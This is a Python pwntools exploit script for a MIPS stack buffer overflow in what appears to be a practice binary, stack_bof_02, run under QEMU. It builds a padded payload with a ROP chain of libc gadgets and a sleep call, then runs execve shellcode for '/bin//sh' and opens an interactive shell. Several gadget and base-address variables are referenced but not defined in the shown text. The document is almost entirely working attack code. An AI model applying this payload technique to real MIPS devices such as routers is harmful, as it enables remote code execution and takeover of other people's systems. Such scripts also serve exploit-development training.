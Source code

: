 ```python
# .text:00095B74                 addiu   $a1, $sp, 52
# .text:00095B78                 sw      $zero, 24($sp)
# .text:00095B7C                 sw      $v0, 20($sp)
# .text:00095B80                 move    $a3, $s2
# .text:00095B84                 move    $t9, $s5
# .text:00095B88                 jalr    $t9
jr_a1 = 0x12568C
# .text:0012568C                 move    $t9, $a1
# .text:00125690                 move    $a3, $v0
# .text:00125694                 move    $a1, $a0
# .text:00125698                 jalr    $t9
sleep = 0xB8FC0

shellcode  = b""
shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1
shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962
shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f
shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)
shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873
shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e
shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)
shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)
shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc
shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1
shellcode += b"\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab
shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404

pay =  b''
pay += b'a'*508
pay += p32(set_s2_addr+libc_base)
pay += b'b'*24
pay += b'1111'                    #s0
pay += b'2222'                    #s1
pay += p32(jr_t9_jr_ra+libc_base) #s2 - > set a0 
pay += p32(sleep+libc_base)       #s3
pay += b'5555'                    #s4
pay += p32(jr_a1+libc_base)     #s5
pay += b'7777'                    #s6
pay += p32(set_a0_addr+libc_base)
pay += b'c'*0x34
pay += p32(addiu_a1_sp+libc_base)
pay += b'd'*52
pay += shellcode

log.info(hex(0x94A10+libc_base))
log.info('addiu_a0_sp_24: {}'.format(hex(addiu_a1_sp+libc_base)))
with open('payload','wb') as f:
    f.write(pay)
# p = process(['qemu-mipsel-static', '-L', './mipsel', '-g', '1234','./stack_bof_02', pay])
p = process(['qemu-mipsel-static', '-L', './mipsel', './stack_bof_02',pay])
pause()
p.interactive()
```

